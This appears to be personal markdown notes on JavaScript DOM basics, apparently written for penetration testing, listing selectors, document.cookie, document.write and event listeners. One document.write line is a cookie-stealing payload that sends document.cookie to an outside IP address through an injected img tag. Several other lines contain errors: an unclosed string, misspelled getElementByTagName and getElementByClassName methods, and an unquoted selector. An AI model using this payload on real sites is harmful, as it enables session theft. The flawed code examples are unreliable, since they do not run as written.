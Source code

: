 # Document Object Model (DOM)

### Basics
> console.log("Hello World!);
>
> document.cookie
>
> document.getElementById('1');
> document.getElementByTagName('div');
> document.getElementByClassName('list-items');
> document.querySelector(#main-heading);
> document.querySelectorAll('div');
> 
> document.write('something');
> document.write('<img src="http://10.10.14.13/?'+document.cookie+'">');
> 

### Event Listeners 
>element.addEventListener("click", function);
>
>element.addEventListener("mouseover", function);
>

### Window Objects
>
>
#
